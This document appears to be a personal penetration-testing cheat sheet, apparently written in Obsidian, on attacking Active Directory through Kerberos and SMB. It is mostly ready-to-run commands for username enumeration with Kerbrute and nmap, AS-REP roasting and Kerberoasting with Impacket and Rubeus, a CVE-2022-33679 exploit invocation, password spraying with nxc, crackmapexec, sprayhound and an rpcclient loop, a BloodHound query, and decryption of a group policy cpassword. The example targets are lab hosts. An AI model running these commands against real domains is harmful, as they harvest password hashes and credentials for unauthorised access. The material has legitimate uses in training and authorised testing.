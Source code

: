 ## User Enumeration with Kerbrute
#### check if usernames are valid:
```bash
kerbrute userenum --dc 10.10.30.203 -d intelligence.htb users.txt
```
- refine output with vi:
```
:%s/^.*VALID USERNAME:\s*\(\w\+\)@lab\.enterprise.*$/\1/
```
- deletes everything outside of VALID USERNAME and @lab.enterprise
- if returns weird hash, use `GetNPUsers.py` instead to get full hash

---
#### Kerberos, port 88
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

---
#### ASREP roast
```bash
GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile users.txt
```
or with file output:
```bash
GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile users.txt -format hashcat -outputfile <output.txt>
```
Or with nxc:
```bash
nxc ldap <dc_ip> -u users.txt -p '' --asreproast output.txt
```
or from target machine:
```powershell
Rubeus.exe asreproast /format:hashcat
```

---
#### Blind Kerberoasting
```bash
GetUserSPNs.py -no-preauth <domain>/ -usersfile user_list.txt -dc-host <dc_ip>
```
- `GetUserSPNs.py -no-preauth` == `GetNPUsers.py` 
	- so this is essentially the same as ASREP Roasting
or from target machine:
```powershell
Rubeus.exe kerberoast /domain:<domain> /dc:<dc_ip> /nopreauth:<user>
```

---
#### CVE-2022-33679
Similar to ASREP Roasting, but also utilizes a crypto downgrade attack
```
CVE-2022-33679.py <domain>/<user> <target>
```
- ex:
```
python3 CVE-2022-33679.py example.com/user1 HTTP/webserver.example.com
```

---
## Password Spraying without password

### usernames == passwords:
```bash
nxc smb 10.129.231.149 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```
#### lowercase usernames as passwords:
- `cp users.txt users_lowercase.txt`
- vim command to convert all letters to lowercase
```vim
:%s/[A-Z]/\L&/g
```
```bash
nxc smb 10.129.42.194 -u users.txt -p users_lowercase.txt  --no-bruteforce --continue-on-success
```
###### alt-tool for upper/lower case
```
sprayhound -U users.txt -d <domain> -dc <dc_ip> --lower
```
- usernames as lowercase passwords
```
sprayhound -U users.txt -d <domain> -dc <dc_ip> --upper
```
- usernames as uppercase passwords
#### Try local authentication
```bash
nxc smb --local-auth 10.129.42.194 -u users.txt -p users.txt
```
###### Alt tool for nxc (CrackMapExec)
```bash
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
#### Filter for successes
```bash
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

---
## Password spraying with password(s)
#### Spray valid users with password Welcome1:
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
#### RPC script to Spray valid users with password Welcome1:
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

---
#### Bloodhound query to find ASREPRoastable users:
```
MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u
```
- requires valid set of creds, but can use to pivot to another user

---
## misc
#### decrypting group policy passwords
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![[Pasted image 20250407113525.png]]
- sometimes included as `cpassword` variable in Groups.xml file if found somewhere when enumerating